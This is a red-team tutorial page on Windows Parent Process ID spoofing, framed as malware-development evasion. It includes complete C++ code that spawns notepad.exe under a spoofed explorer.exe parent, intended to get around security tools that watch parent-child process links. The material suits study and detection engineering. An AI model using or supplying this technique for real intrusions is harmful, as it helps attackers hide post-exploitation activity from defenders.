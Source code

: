```yaml
---
title: PPID Spoofing
category: Maldev-LowPriv Evasaion
order: 2
---
```


Parent Process ID (PPID) Spoofing technique allows to create a process with a parent process ID that differs from the genuine parent process. By doing so, one can avoid detection by security systems designed to identify post-exploitation activities based on parent-child relationship. PPID Spoofing can effectively "hide" a true origin of a process.

There are different techniques to exploit that technique:

# Classic

The classic techniques consists by creating the new process already with the PPID modified. Thanks to `UpdateProcThreadAttribute` function we can modify it to the desired PPID.

First we need to get the PID from a process.

```cpp
DWORD GetPidByName(const char * pName) {
	PROCESSENTRY32 pEntry;
	HANDLE snapshot;

	pEntry.dwSize = sizeof(PROCESSENTRY32);
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(snapshot, &pEntry) == TRUE) {
		while (Process32Next(snapshot, &pEntry) == TRUE) {
			if (_stricmp(pEntry.szExeFile, pName) == 0) {
				return pEntry.th32ProcessID;
			}
		}
	}
	CloseHandle(snapshot);
	return 0;
}
```

![](/rtnotes/images/ppid-spoofing-classic-1.png)

Now we need to initialize and update the process attribute list with the help of `InitializeProcThreadAttributeList` and `UpdateProcThreadAttribute` of the parent process, create a new `STARTUPINFOEX` of the process and set it up to new one.

* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)

```cpp
InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
InitializeProcThreadAttributeList(lpAttributeList, 1, 0, &cbAttributeListSize);

hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, desiredPid);

UpdateProcThreadAttribute(lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);
info.lpAttributeList = lpAttributeList;

CreateProcess(NULL, (LPSTR) "notepad.exe", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &info.StartupInfo, &processInfo);
```

## Code

```cpp
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>
#include <psapi.h>

DWORD GetPidByName(const char * pName) {
	PROCESSENTRY32 pEntry;
	HANDLE snapshot;

	pEntry.dwSize = sizeof(PROCESSENTRY32);
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(snapshot, &pEntry) == TRUE) {
		while (Process32Next(snapshot, &pEntry) == TRUE) {
			if (_stricmp(pEntry.szExeFile, pName) == 0) {
				return pEntry.th32ProcessID;
			}
		}
	}
	CloseHandle(snapshot);
	return 0;
}

int main(void) {

	DWORD desiredPid = 0;
	SIZE_T cbAttributeListSize = 0;
	LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList = NULL;
	HANDLE hParentProcess = NULL;
	
	STARTUPINFOEX info = { sizeof(info) };
    PROCESS_INFORMATION processInfo;

	desiredPid = GetPidByName("explorer.exe");
	if(desiredPid == 0){
		desiredPid = GetCurrentProcessId(); //In case of error
	}

	InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
	lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
	InitializeProcThreadAttributeList(lpAttributeList, 1, 0, &cbAttributeListSize);

	hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, desiredPid);

	UpdateProcThreadAttribute(lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);
	info.lpAttributeList = lpAttributeList;

	CreateProcess(NULL, (LPSTR) "notepad.exe", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &info.StartupInfo, &processInfo);

	printf("Current PID:\t%d \nParent PID:\t%d \nNewProcess PID:\t%d\n", GetCurrentProcessId(), desiredPid, processInfo.dwProcessId);
	getchar();
	return 0;
}
```

Here we can see a process `notepad.exe` created by `rtnotes.exe` has the parent pid of a different process, in that case `explorer.exe`.

![](/rtnotes/images/ppid-spoofing-classic-2.png)

# Windows Scheduler

# WMI